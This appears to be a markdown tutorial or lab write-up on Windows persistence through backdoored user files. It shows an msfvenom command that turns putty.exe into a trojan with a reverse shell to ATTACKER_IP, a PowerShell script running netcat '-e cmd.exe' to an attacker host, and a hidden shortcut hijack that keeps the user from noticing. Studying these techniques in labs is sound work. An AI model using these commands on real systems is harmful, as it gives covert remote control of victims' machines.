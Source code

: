 Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe`

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

### Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to `calc` on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

### 9.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

``` backdoor.ps1
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```
Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

`powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1`
